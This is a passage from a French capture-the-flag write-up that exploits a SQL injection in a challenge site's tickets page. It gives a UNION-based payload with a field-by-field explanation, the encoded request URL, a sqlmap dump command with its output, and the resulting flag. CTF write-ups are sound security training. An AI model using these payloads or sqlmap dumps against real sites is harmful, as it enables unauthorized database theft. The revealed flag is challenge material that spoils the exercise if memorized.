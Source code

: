 En fouillant un peu, nous pouvons essayer une injection telle que :

`1 AND 0=1 UNION SELECT author, title FROM tickets; --`

- `1` : C'est la valeur de l'identifiant d'un ticket spécifique.
- `AND 0=1` : C'est une condition qui est toujours fausse. L'opérateur `AND` est utilisé pour combiner des conditions dans une requête SQL. En spécifiant `0=1`, nous nous assurons que la condition ne sera jamais vraie, ce qui permet d'annuler la partie de la requête d'origine.
- `UNION SELECT author, title FROM tickets` : C'est la partie de l'injection qui nous intéresse. L'opérateur `UNION` est utilisé pour combiner les résultats de deux requêtes différentes en une seule. Ici, nous sélectionnons les colonnes `author` et `title` de la table `tickets` pour obtenir les informations sur les auteurs et les titres des tickets.
- `—` : C'est un commentaire en SQL. Il est utilisé pour ignorer le reste de la requête d'origine après l'injection. Cela permet d'éviter les erreurs de syntaxe et de garantir que l'injection fonctionne correctement.

On URLEncode cette injection et on l’envoie sur notre site : 

```jsx
https://cdr.cyberlog.dev/tickets.php?id=1%20AND%200=1%20UNION%20SELECT%20author,%20title%20FROM%20tickets;%20--
```

## 2. Automatiquement

Il est également possible de retrouver cette information avec **sqlmap** : 

```jsx
python3.11.exe .\sqlmap.py -u https://cdr.cyberlog.dev/tickets.php?id=1 --cookie "PHPSESSID=0caf534b0a298fe5f33fbea535e08e01" -D tickets --dump

+----+---------------+--------------------+---------------------------+
| id | title         | author             | content                   |
+----+---------------+--------------------+---------------------------+
| 1  | First ticket  | admin@cyberlog.com | This is the first ticket  |
| 2  | Second ticket | admin@cyberlog.com | This is the second ticket |
| 3  | Third ticket  | admin@cyberlog.com | This is the third ticket  |
+----+---------------+--------------------+---------------------------+
```

![Untitled](W-U%20du%20challenge%20pour%20la%20rentre%CC%81e%209295c912839243ef92286b11b76b96f9/Untitled%205.png)

Incroyable, on récupère correctement l’adresse mail de l’administrateur du site. 

On récupère notre script de keygen et on regénére pour ce nouveau compte :

`admin@cyberlog.com => 5b58565f587370727668636578736663`

On se connecte sur le pannel admin et on trouve le flag :

![Untitled](W-U%20du%20challenge%20pour%20la%20rentre%CC%81e%209295c912839243ef92286b11b76b96f9/Untitled%206.png)

> CLog{grande_soif}
>

